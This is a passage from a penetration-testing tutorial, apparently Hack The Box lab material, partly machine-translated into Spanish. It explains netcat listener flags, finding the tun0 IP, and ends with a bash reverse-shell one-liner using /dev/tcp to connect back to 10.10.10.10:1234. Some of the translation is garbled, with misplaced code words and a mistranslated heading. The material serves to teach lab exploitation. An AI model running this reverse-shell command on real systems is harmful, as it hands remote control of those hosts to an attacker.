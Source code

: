 Las banderas que estamos utilizando son las siguientes:

|Bandera|Descripción|
|---|---|
|`-l`|Modo de escucha, para esperar a que se conecte una conexión con nosotros.|
|`-v`|Modo detallado, para que sepamos cuándo recibimos una conexión.|
|`-n`|Deshabilite la resolución DNS y solo conéctese desde/hacia IP, para acelerar la conexión.|
|`-p 1234`|El número de puerto está escuchando y se debe enviar la conexión inversa.`netcat`|

Ahora que tenemos un oyente esperando una conexión, podemos ejecutar el comando reverse shell que se conecta a nosotros.`netcat`

#### Volver a conectar IP

Sin embargo, primero, necesitamos encontrar la IP de nuestro sistema para enviarnos una conexión inversa. Podemos encontrar nuestra IP con el siguiente comando:

  Tipos de conchas

```shell-session
zunderrubb@htb[/htb]$ ip a

...SNIP...

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 500
    link/none
    inet 10.10.10.10/23 scope global tun0
...SNIP...
```

In our example, the IP we are interested in is under , which is the same HTB network we connected to through our VPN.`tun0`

Note: We are connecting to the IP in 'tun0' because we can only connect to HackTheBox boxes through the VPN connection, as they do not have internet connection, and therefore cannot connect to us over the internet using `eth0`. In a real pentest, you may be directly connected to the same network, or performing an external penetration test, so you may connect through the `eth0` adapter or similar.

#### Reverse Shell Command

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for on Linux compromised hosts and on Windows compromised hosts:`bash``Powershell`

Code: bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```
